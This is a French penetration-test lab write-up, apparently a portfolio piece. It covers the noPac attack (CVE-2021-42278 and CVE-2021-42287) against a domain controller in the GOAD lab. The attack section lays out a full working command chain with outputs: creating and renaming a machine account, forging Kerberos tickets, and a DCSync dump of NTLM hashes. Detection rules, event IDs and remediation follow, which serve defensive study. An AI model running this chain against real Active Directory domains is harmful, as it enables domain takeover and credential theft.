



# SC-AD-005 — noPac : SamAccountName Spoofing (CVE-2021-42278 + CVE-2021-42287)

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-AD-005 |
| **Nom** | noPac — SamAccountName Spoofing & KDC Fallback |
| **Cible** | WINTERFELL — DC02 north.sevenkingdoms.local (192.168.10.11) |
| **VLAN** | 10 — AD Lab (192.168.10.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.8 (AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H) |
| **CWE** | CWE-269 (Improper Privilege Management), CWE-290 (Authentication Bypass) |
| **CVE** | CVE-2021-42278 (SamAccountName Spoofing), CVE-2021-42287 (KDC PAC Fallback) |
| **MITRE ATT&CK** | T1558 (Steal or Forge Kerberos Tickets), T1003.006 (DCSync), T1078.002 (Valid Accounts: Domain Accounts) |
| **Mayfly Reference** | Part 5 — https://mayfly277.github.io/posts/GOADv2-pwning-part5/ |
| **Prérequis** | Un compte de domaine valide (hodor:hodor) |
| **Résultat** | Domain Admin north.sevenkingdoms.local — DCSync complet |
| **Date** | Mars 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre l'exploitation manuelle de **deux CVE chaînés** (noPac) permettant à un utilisateur de domaine standard d'obtenir les droits **Domain Admin** en moins de 10 minutes, sans aucun exploit logiciel complexe. En abusant d'un défaut de validation du nom de compte machine par le KDC (CVE-2021-42278) et d'un mécanisme de fallback Kerberos (CVE-2021-42287), un attaquant peut forger un ticket de service avec les privilèges du Domain Controller. La chaîne complète aboutit à un DCSync sur `north.sevenkingdoms.local` avec extraction de tous les hashes NTLM du domaine, incluant `krbtgt` et `Administrator`.

### Pour un auditeur ISO 27001 / NIS2

Ce scénario met en évidence des non-conformités critiques sur la gestion des identités machine et la sécurité du protocole Kerberos :

- **A.8.2 (Privileged Access Rights)** — Tout utilisateur de domaine peut créer jusqu'à 10 comptes machine (`MachineAccountQuota = 10`), sans approbation ni supervision. Ce droit non restreint constitue le prérequis direct de l'exploitation.
- **A.8.8 (Management of Technical Vulnerabilities)** — Les patches KB5008380 et KB5008602 (décembre 2021) corrigeant CVE-2021-42287 et CVE-2021-42278 n'étaient pas appliqués sur WINTERFELL au moment de l'exploitation. L'absence de gestion des vulnérabilités critiques expose le domaine à une compromission totale.
- **A.8.15 (Logging)** — Aucun monitoring des créations/renommages de comptes machine (Event IDs 4741, 4742, 5136) n'était en place. L'attaque s'est déroulée sans alerte.
- **A.8.16 (Monitoring Activities)** — Aucune détection des requêtes Kerberos anormales (TGT pour un compte portant le nom d'un DC sans dollar) n'était configurée.
- **NIS2 Art. 21 §2(e)** — Absence de politique de gestion des patches pour les vulnérabilités critiques affectant l'infrastructure d'authentification.

### Pour un RSSI

Un compte utilisateur standard (`hodor:hodor`) a permis la compromission totale du domaine `north.sevenkingdoms.local` en 8 étapes manuelles. Le hash `krbtgt` extrait permet la création de **Golden Tickets** offrant un accès persistant indétectable au domaine. L'impact dépasse le seul domaine north — via les relations de confiance inter-forêts, la compromission peut s'étendre à `sevenkingdoms.local` et `essos.local`.

---

## Diagramme réseau



---

## Kill Chain



---

## Scope & Méthodologie

| Paramètre | Valeur |
|-----------|--------|
| **Cible principale** | WINTERFELL (192.168.10.11) — DC north.sevenkingdoms.local |
| **Compte initial** | hodor:hodor (utilisateur de domaine standard) |
| **Outils utilisés** | netexec, impacket (addcomputer, getTGT, getST), bloodyAD, secretsdump |
| **Méthode** | Exploitation manuelle — pas de Metasploit |
| **Durée** | ~15 minutes |
| **Détection** | Aucune alerte générée |

---

## Phases d'exploitation

### Phase 1 — Vérification du MachineAccountQuota

Tout utilisateur AD peut créer des comptes machine si `ms-DS-MachineAccountQuota > 0`. Valeur par défaut : 10.

```bash
netexec ldap 192.168.10.11 -u hodor -p hodor -d north.sevenkingdoms.local -M maq
```

```
LDAP  192.168.10.11  389  WINTERFELL  [+] north.sevenkingdoms.local\hodor:hodor
MAQ   192.168.10.11  389  WINTERFELL  MachineAccountQuota: 10
```

Prerequis confirme — creation de compte machine autorisee.

---

### Phase 2 — Scan de vulnerabilite noPac

Le module `nopac` de netexec tente d'obtenir un TGT avec un nom de DC sans dollar et verifie si le KDC accepte.

```bash
netexec smb 192.168.10.11 -u hodor -p hodor -d north.sevenkingdoms.local -M nopac
```

```
NOPAC  192.168.10.11  445  WINTERFELL  TGT with PAC size 1582
NOPAC  192.168.10.11  445  WINTERFELL  TGT without PAC size 793
NOPAC  192.168.10.11  445  WINTERFELL  VULNERABLE
```

CVE-2021-42278 + CVE-2021-42287 confirmes sur WINTERFELL.

---

### Phase 3 — Creation du compte machine

```bash
impacket-addcomputer -computer-name 'PWNED$' -computer-pass 'Password123!' -dc-ip 192.168.10.11 north.sevenkingdoms.local/hodor:hodor
```

```
[*] Successfully added machine account PWNED$ with password Password123!.
```

---

### Phase 4 — Rename : PWNED$ vers WINTERFELL (CVE-2021-42278)

On modifie le `sAMAccountName` du compte machine pour qu'il soit identique au nom NetBIOS du DC, sans le dollar. Le KDC ne valide pas ce changement.

```bash
bloodyAD -d north.sevenkingdoms.local -u hodor -p hodor --host 192.168.10.11 set object 'PWNED$' sAMAccountName -v 'WINTERFELL'
```

```
[+] PWNED$'s sAMAccountName has been updated
```

---

### Phase 5 — Obtention du TGT pour WINTERFELL

Le KDC delivre un TGT pour le compte WINTERFELL, identique au DC. C'est CVE-2021-42278 exploite.

```bash
impacket-getTGT -dc-ip 192.168.10.11 north.sevenkingdoms.local/WINTERFELL:'Password123!'
```

```
[*] Saving ticket in WINTERFELL.ccache
```

---

### Phase 6 — Rollback du nom de compte

On renomme le compte machine vers son nom original AVANT de demander le TGS. C'est le declencheur de CVE-2021-42287.

```bash
bloodyAD -d north.sevenkingdoms.local -u hodor -p hodor --host 192.168.10.11 set object 'WINTERFELL' sAMAccountName -v 'PWNED$'
```

```
[+] WINTERFELL's sAMAccountName has been updated
```

---

### Phase 7 — S4U2Self : obtention du TGS Administrator (CVE-2021-42287)

On presente le TGT WINTERFELL au KDC pour demander un TGS au nom d'Administrator. Le KDC cherche WINTERFELL, pas trouve, fallback WINTERFELL$, trouve le vrai DC, delivre un TGS avec les droits Domain Admin.

> **Note technique** : impacket-getST v0.14 presente un bug avec -force-forwardable. Utiliser getST.py de /opt_test/impacket avec les options -self et -altservice (PR #1202 + #1224).

```bash
export KRB5CCNAME=WINTERFELL.ccache
python3 /opt_test/impacket/examples/getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 192.168.10.11 'north.sevenkingdoms.local/WINTERFELL' -debug
```

```
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Changing service from WINTERFELL@NORTH.SEVENKINGDOMS.LOCAL to CIFS/winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL
[*] Saving ticket in administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

---

### Phase 8 — DCSync : extraction des hashes NTLM

```bash
export KRB5CCNAME='administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache'
impacket-secretsdump -k -no-pass -dc-ip 192.168.10.11 @'winterfell.north.sevenkingdoms.local'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5883cbf00ea968b503b20628fb83cc55:::
robb.stark:1114:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
[DefaultPassword] NORTH\robb.stark:sexywolfy
```

---

### Phase 9 — Nettoyage OPSEC

```bash
impacket-addcomputer -computer-name 'PWNED$' -computer-pass 'Password123!' -dc-ip 192.168.10.11 -delete north.sevenkingdoms.local/administrator -hashes aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4
```

---

## Credentials recuperes

| Compte | Hash NTLM | Type | Domaine |
|--------|-----------|------|---------|
| Administrator | dbd13e1c4e338284ac4e9874f7de6ef4 | Domain Admin | north.sevenkingdoms.local |
| krbtgt | 5883cbf00ea968b503b20628fb83cc55 | Compte Kerberos | north.sevenkingdoms.local |
| robb.stark | 831486ac7f26860c9e2f51ac91e1a07a / sexywolfy | Utilisateur | north.sevenkingdoms.local |
| eddard.stark | d977b98c6c9282c5c478be1d97b237b8 | Utilisateur (bot) | north.sevenkingdoms.local |
| jon.snow | b8d76e56e9dac90539aff05e3ccb1755 | Utilisateur | north.sevenkingdoms.local |
| hodor | 337d2667505c203904bd899c6c95525e | Utilisateur | north.sevenkingdoms.local |
| WINTERFELL$ | a9bb66a8c84c8138e1834e054396027a | Compte machine DC | north.sevenkingdoms.local |

---

## Impact technique

| Dimension | Niveau | Detail |
|-----------|--------|--------|
| **Confidentialite** | Critique | Tous les hashes NTLM du domaine extraits — krbtgt compromis |
| **Integrite** | Critique | Modification possible de tout objet AD, GPO, comptes |
| **Disponibilite** | Critique | Arret possible de tous les services du domaine |
| **Perimetre** | Etendu | Via trusts : sevenkingdoms.local et essos.local potentiellement compromis |
| **Persistance** | Critique | Golden Ticket via krbtgt — persistance sans rotation krbtgt |

---

## Impact metier — MediaTech Groupe SA

### Synthese narrative

La compromission totale du controleur de domaine WINTERFELL equivaut a une prise de controle complete de l'infrastructure d'identite de MediaTech Groupe SA pour le domaine nord. Un attaquant disposant du hash krbtgt peut creer des Golden Tickets valables 10 ans, maintenir un acces indetectable a l'ensemble du SI, et se propager aux domaines partenaires via les relations de confiance. L'exploitation ne necessite qu'un compte utilisateur basique — vecteur accessible a tout employe malveillant ou attaquant ayant compromis un poste de travail.

### Estimation financiere

| Poste | Estimation |
|-------|-----------|
| Incident Response (investigation + remediation) | 80 000 — 150 000 EUR |
| Reconstruction partielle de l'AD | 50 000 — 100 000 EUR |
| Perte d'exploitation (arret services) | 20 000 — 50 000 EUR/jour |
| Notification RGPD + audit CNIL | 30 000 — 60 000 EUR |
| Sanctions NIS2 potentielles | Jusqu'a 2% CA mondial |
| **Total estime** | **180 000 — 360 000 EUR** |

### Impact reglementaire

| Referentiel | Article | Non-conformite |
|-------------|---------|----------------|
| **RGPD** | Art. 32 | Absence de mesures techniques adaptees sur l'infrastructure d'authentification |
| **RGPD** | Art. 33 | Violation notifiable a la CNIL sous 72h si donnees personnelles accessibles |
| **NIS2** | Art. 21 §2(e) | Absence de politique de gestion des vulnerabilites critiques |
| **NIS2** | Art. 21 §2(a) | Politique de securite des systemes d'information insuffisante |
| **ISO 27001** | A.8.8 | Gestion des vulnerabilites techniques absente |
| **ISO 27001** | A.8.2 | Droits d'acces privilegies non restreints (MachineAccountQuota) |

### Top 5 actions prioritaires

**0-24h (urgence)**
1. Appliquer KB5008380 (CVE-2021-42287) et KB5008602 (CVE-2021-42278) sur tous les DC
2. Rotation immediate du mot de passe krbtgt (deux fois, intervalle 10h) pour invalider les Golden Tickets

**Sous 1 semaine**
3. Positionner MachineAccountQuota = 0 via GPO — deleguer la creation de comptes machine aux seuls admins

**Sous 1 mois**
4. Activer la surveillance des Event IDs 4741, 4742, 5136 dans le SIEM
5. Deployer les groupes Protected Users sur tous les comptes administrateurs

### Decisions attendues du COMEX

- Valider le plan de patching d'urgence sur l'ensemble des Domain Controllers (WINTERFELL, KINGSLANDING, MEEREEN) — delai maximum 24h
- Declencher une analyse d'impact RGPD — identifier si des donnees personnelles etaient accessibles via le compte Administrator compromis
- Mandater un audit complet des relations de confiance inter-forets pour evaluer l'etendue de la compromission potentielle vers sevenkingdoms.local et essos.local
- Valider un budget SOC pour le deploiement d'une surveillance Kerberos temps reel (Wazuh + regles Sigma)
- Nommer un responsable de la gestion des vulnerabilites AD avec SLA de patching critique < 72h

---

## Detection SOC / SIEM

### Event IDs Windows

| Event ID | Source | Description | Indicateur |
|----------|--------|-------------|------------|
| **4741** | Security | Compte ordinateur cree | Creation de PWNED$ par hodor |
| **4742** | Security | Compte ordinateur modifie | sAMAccountName vers WINTERFELL |
| **5136** | Security | Objet DS modifie | Attribut sAMAccountName modifie |
| **4768** | Security | TGT Kerberos demande | TGT pour WINTERFELL sans dollar |
| **4769** | Security | TGS Kerberos demande | S4U2Self pour Administrator |
| **4662** | Security | Operation sur objet AD | DCSync — replication DRSUAPI |

### Regles Sigma

```yaml
# Regle 1 — Creation compte machine sans dollar
title: Machine Account Created Without Dollar Sign
id: sc-ad-005-001
status: experimental
description: Detecte la creation d'un compte machine dont le sAMAccountName ne contient pas $
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4741
    filter:
        SAMAccountName|endswith: '$'
    condition: selection and not filter
level: critical
tags:
    - attack.t1558
    - cve-2021-42278

---
# Regle 2 — Renommage de compte machine vers nom de DC
title: Machine Account Renamed to DC Name
id: sc-ad-005-002
status: experimental
description: Detecte le renommage d'un compte machine vers le nom d'un DC existant
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        AttributeLDAPDisplayName: sAMAccountName
    condition: selection
level: high
tags:
    - attack.t1558
    - cve-2021-42278
    - cve-2021-42287
```

### IOC

```
# Comptes machine suspects
sAMAccountName sans $ = creation anormale
sAMAccountName = nom d'un DC existant = renommage suspect

# Fichiers ccache generes
WINTERFELL.ccache
administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache

# Hashes compromis
Administrator NTLM : dbd13e1c4e338284ac4e9874f7de6ef4
krbtgt NTLM       : 5883cbf00ea968b503b20628fb83cc55
```

---

## Remediation Secure by Design

### Actions prioritaires

| Priorite | Action | Methode | Delai |
|----------|--------|---------|-------|
| CRITIQUE | Appliquer KB5008380 + KB5008602 | Windows Update / WSUS | 0-24h |
| CRITIQUE | Rotation krbtgt x2 | Set-ADAccountPassword | 0-24h |
| CRITIQUE | MachineAccountQuota = 0 | GPO / PowerShell | J+1 |
| ELEVE | Protected Users group | ADAC / PowerShell | 1 semaine |
| ELEVE | Surveillance Event IDs | SIEM / Wazuh | 1 semaine |

### Commandes de remediation

```powershell
# MachineAccountQuota = 0
Set-ADDomain -Identity north.sevenkingdoms.local -Replace @{"ms-DS-MachineAccountQuota"="0"}

# Rotation krbtgt (repeter 2 fois avec 10h d'intervalle)
Set-ADAccountPassword -Identity krbtgt -Reset -NewPassword (ConvertTo-SecureString "NewKrbtgtP@ssw0rd!" -AsPlainText -Force)

# Ajouter les admins dans Protected Users
Add-ADGroupMember -Identity "Protected Users" -Members "Administrator","jeor.mormont"

# Verifier le quota
Get-ADDomain | Select-Object -ExpandProperty 'ms-DS-MachineAccountQuota'
```

---

## Architecture cible securisee



---

## References

| Reference | URL |
|-----------|-----|
| Mayfly277 GOAD Part 5 | https://mayfly277.github.io/posts/GOADv2-pwning-part5/ |
| CVE-2021-42278 | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278 |
| CVE-2021-42287 | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287 |
| Charlie Clark Weaponisation | https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html |
| KB5008380 patch 42287 | https://support.microsoft.com/kb/5008380 |
| KB5008602 patch 42278 | https://support.microsoft.com/kb/5008602 |
| MITRE T1558 | https://attack.mitre.org/techniques/T1558/ |
| MITRE T1003.006 DCSync | https://attack.mitre.org/techniques/T1003/006/ |
| impacket PR 1202 | https://github.com/SecureAuthCorp/impacket/pull/1202 |
| impacket PR 1224 | https://github.com/SecureAuthCorp/impacket/pull/1224 |

---

*Auteur : Nadyr Chouarhi (hik3nR00t) | HikenRoot Forge | Mars 2026*
*Environnement : GOAD v3 — MediaTech Groupe SA (fictif)*
